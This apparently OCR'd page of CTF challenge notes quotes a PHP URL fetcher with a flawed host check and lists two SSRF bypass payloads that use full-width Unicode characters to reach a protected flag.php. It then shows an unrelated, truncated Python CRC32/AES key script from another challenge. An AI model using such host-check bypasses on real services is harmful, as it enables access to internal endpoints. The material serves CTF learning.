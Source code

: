 ```php
                    <?php
                    if (isset($_GET['url'])){
                        $url = filter_input(INPUT_GET, 'url');
                        $parsed_url = parse_url($url);                        
                        if($parsed_url["scheme"] !== "http"){
                            // only http: should be allowed. 
                            echo 'URL should start with http!';
                        } else if (gethostbyname(idn_to_ascii($parsed_url["host"], 0, INTL_IDNA_VARIANT_UTS46)) === gethostbyname("nginx")) {
                            // local access to nginx from php-fpm should be blocked.
                            echo 'Oops, are you a robot or an attacker?';
                        } else {
                            // file_get_contents needs idn_to_ascii(): https://stackoverflow.com/questions/40663425/
                            highlight_string(file_get_contents(idn_to_ascii($url, 0, INTL_IDNA_VARIANT_UTS46),
                                                               false,
                                                               stream_context_create(array(
                                                                   'http' => array(
                                                                       'follow_location' => false,
                                                                       'timeout' => 2
                                                                   )
                                                               ))));
                        }
                    }
                    ?>
```

```
http://nginx／flag.php
http://nginx：80/flag.php
```



## Crazy repetition of codes

```python
import os
from Crypto.Cipher import AES

def crc32(crc, data):
  crc = 0xFFFFFFFF ^ crc
  for c in data:
    crc = crc ^ ord(c)
    for i in range(8):
      crc = (crc >> 1) ^ (0xEDB88320 * (crc & 1))
  return 0xFFFFFFFF ^ crc

key = b""

crc = 0
for i in range(int("1" * 10000)):
  crc = crc32(crc, "TSG")
crc = 0xb09bc54f
key += crc.to_bytes(4, byteorder='big')

crc = 0
for i in range(int("1" * 10000)):
  crc = crc32(crc, "is")
key += crc.to_bytes(4, byteorder='big')

crc = 0
for i in range(int("1" * 10000)):
  crc = crc32(crc, "here")
```